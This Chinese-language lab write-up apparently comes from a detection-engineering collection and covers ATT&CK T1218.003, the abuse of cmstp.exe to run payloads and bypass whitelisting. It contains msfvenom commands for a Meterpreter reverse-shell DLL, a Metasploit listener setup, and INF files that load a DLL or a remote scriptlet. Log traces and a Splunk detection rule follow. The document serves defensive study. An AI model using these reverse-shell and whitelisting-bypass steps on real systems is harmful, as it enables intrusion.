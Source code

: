 # T1218-003-win-基于白名单Cmstp.exe执行Payload

## 来自ATT&CK的描述

微软的命令行程序CMSTP.exe用于安装连接管理器服务配置文件。CMSTP.exe将收到的安装信息文件（INF）作为参数，安装用于远程访问连接的服务配置文件。

攻击者可能会向CMSTP.exe提供带恶意命令的INF文件。与Regsvr32/"Squiblydoo"类似，CMSTP.exe可能被滥用来从远程服务器加载和执行动态链接库和/或COM脚本小程序。攻击者还可能用CMSTP.exe来绕过AppLocker及其他白名单防御，因为CMSTP.exe本身是一个合法的、已签名的微软应用。

CMSTP.exe也可能被滥用来绕过用户账号控制并通过自动升级的COM接口执行INF文件中的任意恶意命令。

## 测试案例

Cmstp安装或删除“连接管理器”服务配置文件。如果不含可选参数的情况下使用，则 cmstp 会使用对应于操作系统和用户的权限的默认设置来安装服务配置文件。

微软官方文档：
<https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp>

说明：Cmstp.exe所在路径已被系统添加PATH环境变量中，因此，Cmstp命令可识别，需注意x86，x64位的Cmstp调用。

Windows 2003 默认位置：

```dos
C:\Windows\System32\cmstp.exe
C:\Windows\SysWOW64\cmstp.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\cmstp.exe
C:\Windows\SysWOW64\cmstp.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows 7

### 攻击分析

#### 生成payload.dll

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53  -f dll -o payload.dll
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 53
lport => 53
msf5 exploit(multi/handler) > set AutoRunScript migrate -f
AutoRunScript => migrate -f
msf5 exploit(multi/handler) > exploit
```

#### inf模板

```inf
    [version]
    Signature=$chicago$
    AdvancedINF=2.5
    [DefaultInstall_SingleUser]
    UnRegisterOCXs=UnRegisterOCXSection
    [UnRegisterOCXSection]
     C:\payload.dll
    [Strings]
    AppAct = "SOFTWARE\Microsoft\Connection Manager"
    ServiceName="12306Br0"
    ShortSvcName="12306Br0"
```

INF文件的RegisterOCXSection需要包含恶意DLL文件的本地路径或远程执行的WebDAV位置

#### 靶机执行payload

```cmd
cmstp.exe /ni /s C:\Users\12306Br0\Desktop\a\add.inf
```

#### 反弹shell

未成功获取到shell

## 测试留痕

```log
windows安全日志
事件ID： 4688
进程信息:
新进程 ID: 0x9b0
新进程名: C:\Windows\System32\cmstp.exe

sysmon日志
事件ID：1
OriginalFileName: CMSTP.EXE
CommandLine: cmstp.exe  /ni /s C:\Users\12306Br0\Desktop\a\add.inf
CurrentDirectory: C:\Windows\system32\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-0020eae10600}
LogonId: 0x6e1ea
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=BA135738EF1FB2F4C2C6C610BE2C4E855A526668
ParentProcessGuid: {bb1f7c32-fdb7-5e9a-0000-0010563b2d00}
ParentProcessId: 1988
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\System32\cmd.exe"
```

## inf文件内容

```inf
    [version]
    Signature=$chicago$
    AdvancedINF=2.5
    [DefaultInstall_SingleUser]
    UnRegisterOCXs=UnRegisterOCXSection
    [UnRegisterOCXSection]
    %11%\scrobj.dll,NI,http://192.168.1.4/cmstp_rev_53_x64.sct
    [Strings]
    AppAct = "SOFTWARE\Microsoft\Connection Manager"
    ServiceName="Micropoor"
    ShortSvcName="Micropoor"
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

splunk检测规则如下：

```yml
index=windows source=”WinEventLog:Microsoft-Windows-Sysmon/Operational” (EventCode=1 Image=”*\\cmstp.exe”) OR (EventCode=10 SourceImage=”*\\cmstp.exe” ) OR (EventCode=10 CallTrace=”*CMLUA.dll*”) (EventCode IN (12,13) TargetObject=”*\\CMMGR32.exe” OR (EventCode=12 TargetObject=”HKLM\\SOFTWARE\\Microsoft\\Tracing\\cmstp*”)
```

## 参考推荐

MITRE-ATT&CK-T1218-003

<https://attack.mitre.org/techniques/T1218/003/>

windows下基于白名单获取shell的方法整理（下）

<http://www.safe6.cn/article/157#directory030494471069429444>

基于白名单Cmstp.exe执行payload第十六季

<https://www.bookstack.cn/read/Micro8/Chapter1-81-90-87_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Cmstp.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%8D%81%E5%85%AD%E5%AD%A3.md>
